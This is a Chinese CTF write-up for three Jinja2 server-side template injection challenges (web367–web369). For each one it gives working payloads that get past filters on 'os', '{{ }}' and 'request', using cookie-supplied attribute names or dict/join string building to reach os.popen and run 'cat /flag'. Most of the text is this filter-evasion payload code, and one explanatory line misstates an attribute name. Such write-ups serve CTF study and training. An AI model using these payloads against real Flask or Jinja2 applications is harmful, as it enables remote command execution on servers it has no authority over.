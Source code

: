 

### web367

这一题把`os`给ban了，使用cookie传参就行

```
{{(lipsum|attr(request.cookies.a)|attr(request.cookies.b))(request.cookies.c).popen(request.cookies.d).read()}}

a=__globals__;b=__getitem__;c=os;d=cat /flag
```



### web368

这一题把 `{{}}`给过滤了，只能使用 `{% %}` 了，然后使用`print`将结果输出即可

```
{% print((lipsum|attr(request.cookies.a)|attr(request.cookies.b))(request.cookies.c).popen(request.cookies.d).read()) %}

a=__globals__;b=__getitem__;c=os;d=cat /flag
```

![image-20230426175246513](https://s2.loli.net/2023/04/26/biuW5fTvHk8ZmQG.png)



### web369

`request`都被过滤了，前面的payload全部用不了了，我们需要设置变量，然后一个个构造出来



```python
{% set po=dict(po=1,p=1)|join %}
{% set a=(()|select|string|list)|attr(po)(24) %}
{% set ini=(a,a,dict(ini=1,t=1)|join,a,a)|join %}
{% set gloa=(a,a,dict(glo=1,bals=1)|join,a,a)|join %}
{% set geti=(a,a,dict(geti=1,tem=1)|join,a,a)|join %}
{% set buil=(a,a,dict(buil=1,tins=1)|join,a,a)|join %}
{% set c=(xx|attr(ini)|attr(gloa)|attr(geti))(buil) %}
{% set chr=c.chr %}
{% set file=chr(99)%2Bchr(97)%2Bchr(116)%2Bchr(32)%2Bchr(47)%2Bchr(102)%2Bchr(108)%2Bchr(97)%2Bchr(103) %}  # cat /flag
{% print(c) %}
```

```python
构造po="pop"     #利用dict()|join拼接得到
{% set po=dict(po=a,p=a)|join%}

等效于a=(()|select|string|list).pop(24),即a等价于下划线_
{% set a=(()|select|string|list)|attr(po)(24)%}

构造ini="___init__"
{% set ini=(a,a,dict(init=a)|join,a,a)|join()%}

构造glo="__globals__"
{% set glo=(a,a,dict(globals=a)|join,a,a)|join()%}

构造geti="__getitem__"
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}

构造built="__builtins__"
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}

调用chr()函数
```